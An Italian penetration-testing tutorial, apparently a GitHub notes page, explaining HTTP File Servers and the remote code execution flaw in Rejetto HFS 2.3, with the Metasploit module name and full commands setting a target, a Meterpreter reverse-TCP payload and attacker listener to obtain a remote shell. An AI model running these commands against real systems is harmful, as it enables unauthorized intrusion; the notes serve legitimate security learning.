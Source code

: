 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# Exploiting a Vulnerable HTTP File Server (HFS)

Un **HTTP File Server (HFS)** è un tipo di server web progettato appositamente per la **condivisione di file** con utenti remoti. A differenza dei server web tradizionali, il cui scopo principale è **ospitare siti web** o **fornire documenti statici e dinamici** (come HTML, CSS, immagini o script), un HFS è ottimizzato per permettere **il download diretto di file** e l'accesso a directory da parte di utenti collegati alla rete.

---

## Differenze tra HFS e Web Server Standard

Un **server web standard** (come Apache, NGINX o Microsoft IIS) è configurato per fornire contenuti web, gestire richieste HTTP complesse, eseguire codice lato server e integrare funzionalità dinamiche come PHP o ASP.NET.

Un **HTTP File Server**, invece, è semplificato e progettato con un obiettivo primario: **la condivisione rapida e semplice di file**, sia in **rete locale** che su **Internet**. Questo tipo di server permette agli utenti di accedere a documenti condivisi tramite browser, e spesso include funzionalità di navigazione tra directory, download diretto e caricamento (upload) controllato.

---

## Rejetto HFS

Uno dei software più noti per la gestione di HTTP File Server è **Rejetto HFS**. Si tratta di un'applicazione:

- **Gratuita e open-source**.
- Disponibile per **Windows** (ma può essere eseguita anche su Linux tramite Wine).
- Dotata di una **interfaccia grafica semplice** per configurare la condivisione di directory.
- Molto utilizzata per ambienti casalinghi, laboratori, o reti aziendali leggere.

La versione **2.3** di Rejetto HFS contiene una **vulnerabilità nota di tipo Remote Code Execution (RCE)**, che consente a un attaccante remoto di eseguire comandi arbitrari sul sistema target.

---

## La Vulnerabilità di Rejetto HFS 2.3

Nella versione 2.3 di Rejetto HFS è presente una falla che consente, tramite una richiesta HTTP appositamente costruita, di eseguire comandi sul sistema operativo che ospita il server.

Questa vulnerabilità è stata **catalogata e inclusa nel database di Metasploit**, dove è disponibile un exploit pubblico completamente funzionante.

---

## Sfruttamento con Metasploit

Per sfruttare questa vulnerabilità all'interno di un penetration test, è possibile utilizzare il modulo Metasploit:
```bash
use exploit/windows/http/rejetto_hfs_exec
```

Questo modulo sfrutta la falla nella gestione delle richieste HTTP da parte del server vulnerabile per ottenere una **sessione Meterpreter**, o un altro tipo di shell, a seconda del payload selezionato.

Dopo aver caricato il modulo, sarà necessario configurare:
- `RHOST` ⟶ l'IP del server HFS vulnerabile.
- `RPORT` ⟶ la porta su cui è in ascolto (di default 80).
- `PAYLOAD` ⟶ il tipo di payload desiderato (es. `windows/meterpreter/reverse_tcp`).
- `LHOST` e `LPORT` ⟶ l'indirizzo e la porta della macchina attaccante per ricevere la connessione.

Esempio:
```bash
set RHOST 192.168.1.100
set RPORT 80
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

Se il target è vulnerabile, l’attaccante otterrà **accesso remoto** al sistema bersaglio con privilegi dell’utente con cui gira il processo di HFS.

---
